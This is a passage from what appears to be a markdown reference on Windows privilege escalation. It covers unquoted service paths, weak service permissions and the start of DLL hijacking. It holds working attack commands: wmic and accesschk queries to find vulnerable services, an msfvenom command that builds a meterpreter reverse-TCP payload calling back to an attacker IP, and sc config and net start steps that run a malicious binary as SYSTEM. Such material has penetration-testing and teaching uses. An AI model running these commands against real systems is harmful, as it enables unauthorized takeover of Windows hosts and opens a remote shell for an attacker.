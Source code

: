 # Windows Privilege Escalation

## Overview
Windows privilege escalation involves elevating access from a low-privilege user (e.g., standard user) to a high-privilege user (e.g., SYSTEM or Administrator) by exploiting misconfigurations, vulnerabilities, or weak security controls. This documentation includes additional techniques, such as various **Potato techniques**, to demonstrate modern escalation methods.

## Detailed Methods and Techniques
- **Unquoted Service Paths**:
  - **Technique**: Exploit services with unquoted paths containing spaces, allowing execution of malicious binaries in intermediate directories.
  - **Execution**: Identify unquoted service paths using `wmic`.
    ```cmd
    wmic service get name,pathname | findstr /i /v "C:\Windows" | findstr /i /v """
    ```
    **Example Output**:
    ```
    MyService  C:\Program Files\My App\Service.exe
    ```
    - Place a malicious binary (e.g., `My.exe`) in `C:\Program`.
      ```bash
      msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o C:\Program\My.exe
      ```
      - Restart the service:
        ```cmd
        net stop MyService
        net start MyService
        ```
        **Example Output**: Meterpreter session opens.
        ```
        [*] Meterpreter session 1 opened
        ```
    - **Purpose**: Gain SYSTEM privileges when the service executes the malicious binary.
- **Weak Service Permissions**:
  - **Technique**: Modify services with weak permissions to execute arbitrary commands.
  - **Execution**: Check service permissions with `accesschk` (Sysinternals).
    ```cmd
    accesschk.exe -uwcqv "Authenticated Users" MyService
    ```
    **Example Output**:
    ```
    RW MyService
      SERVICE_CHANGE_CONFIG
      SERVICE_START
      SERVICE_STOP
    ```
    - Reconfigure the service:
      ```cmd
      sc config MyService binPath= "C:\Temp\malicious.exe"
      net stop MyService
      net start MyService
      ```
      **Example Output**: Malicious binary executes as SYSTEM.
    - **Purpose**: Gain SYSTEM privileges by altering the service.
- **DLL Hijacking**:
  - **Technique**: Exploit applications loading DLLs from writable directories.
  - **Execution**: Identify writable directories in the PATH using `PowerUp`.
    ```powershell
    Import-Module PowerUp.ps1